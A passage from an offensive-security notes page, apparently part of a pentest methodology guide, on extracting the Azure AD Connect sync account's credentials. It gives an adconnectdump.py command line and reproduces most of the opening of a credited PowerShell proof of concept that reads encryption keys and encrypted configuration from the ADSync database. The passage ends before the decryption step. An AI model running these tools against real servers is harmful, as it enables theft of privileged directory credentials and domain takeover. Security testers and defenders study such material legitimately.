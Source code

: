     `ADSyncDecrypt` and `ADSyncGather` work similarly to `AdDecrypt.exe` and
    require code execution on the targeted `Azure AD Connect` server.  
    `ADSyncQuery` present the advantage of conducting the extraction through
    remote `RPC` calls. It however requires a local `MSSQL` instance to be
    installed on the attacking computer.

    ```
    # The ADSyncQuery.exe sould be present in the directory.
    python.exe adconnectdump.py [[<DOMAIN>/]<USERNAME>@<HOSTNAME | IP>
    ```

  - The [azuread_decrypt_msol.ps1](https://gist.github.com/xpn/0dc393e944d8733e3c63023968583545#file-azuread_decrypt_msol-ps1) PowerShell
    script.

    ```
    # Author: Adam Chester (XPN).
    # Source: https://gist.github.com/xpn/0dc393e944d8733e3c63023968583545#file-azuread_decrypt_msol-ps1

    # !! For connection to full MSSQL database instance (excluding database setup using the "Express" installation option), replace the connection string with the one below:
    # $client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=LocalHost;Database=ADSync;Trusted_Connection=True;"

    Write-Host "AD Connect Sync Credential Extract POC (@_xpn_)`n"

    $client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync"
    $client.Open()
    $cmd = $client.CreateCommand()
    $cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
    $reader = $cmd.ExecuteReader()
    $reader.Read() | Out-Null
    $key_id = $reader.GetInt32(0)
    $instance_id = $reader.GetGuid(1)
    $entropy = $reader.GetGuid(2)
    $reader.Close()

    $cmd = $client.CreateCommand()
    $cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
    $reader = $cmd.ExecuteReader()
    $reader.Read() | Out-Null
    $config = $reader.GetString(0)
    $crypted = $reader.GetString(1)
    $reader.Close()
